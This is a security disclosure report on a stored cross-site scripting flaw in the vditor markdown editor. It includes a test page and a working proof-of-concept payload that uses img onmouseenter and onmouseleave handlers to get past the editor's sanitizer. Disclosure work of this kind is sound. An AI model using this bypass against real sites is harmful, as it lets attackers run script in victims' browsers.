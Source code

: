 # 	Report

### Exploit Title: 

Cross-site Scripting (XSS) - Stored in GitHub repository vanessa219/vditor.

### Version:

vanessa219/vditor prior to its latests version 3.8.15.

### Date:

2022.7.1

### Exploit Author:

fengx1a0

### Software Link:

https://github.com/Vanessa219/vditor

### Offical Demo Link:

https://b3log.org/vditor/demo/option-mode.html

### Short Analysis Report:

**environment：**

I tested the application of vditor with its cdn:  https://cdn.jsdelivr.net/npm/vditor ,the version of this cdn is 3.8.15.

Here is a sipmle Demo:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS Demon</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/vditor/dist/index.css">
    <script src="https://cdn.jsdelivr.net/npm/vditor"></script>
</head>
<body style="background-color: #fff;">
    <textarea id="desc" style="display: none;">
        123
    </textarea>
    <div id="edit"></div>
    <script>
        var edit = new Vditor('edit', {
            cache: {
                enable: false
            },
            value: document.getElementById('desc').value,
            width: '100%',
            height: window.innerHeight,
            preview: {
                markdown: {
                    sanitize: true //default security mode
                }
            }
        });
    </script>
</body>
</html>
```

**analyse: **

First, I made sure that the user's input would be processed by the application and rendered on the page.

After performing black-box testing, I found that if I used some special tags in the editor, some special tags that could cause the script to execute would be parsed afterwards.

Here are some special tags:

```
<object></object>
<script></script>
<form >
<input autofocus>\n
```

So I can now use tags like img, iframe, a, etc. to make the danger tag parsed.

But I found that many tag attributes are disabled by the application, such as onerror, onload, etc.

Then I started another poking around, looking for a tag that could execute javascript code.

Eventually I found that the frame tag and its src attribute could execute javacript code, and my poc looked like this

```
<script></script><img src=https://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png onmouseleave=alert(123) onmouseenter=alert(456)>
```

onmouseleave and onmouseenter are the two main public properties of the dom tag, it can be used to trigger events, if the mouse moves to the picture will trigger the onmouseenter event, leave the picture will trigger the onmouseleave event, these events can execute arbitrary JavaScript code, but the application does not filter these two properties, which leads to the attacker can construct a normal large size image, as long as the victim mouse over the image or move out of the image will immediately trigger the event to achieve arbitrary javascript code execution.

This is stored xss and has a very high probability of triggering.

![image-20220701035802875](images/image-20220701035802875.png)

The offical demo can also be triggered. 

### Repair Solutions:

Remove vulnerable characters from DOM elements or disable inline frames.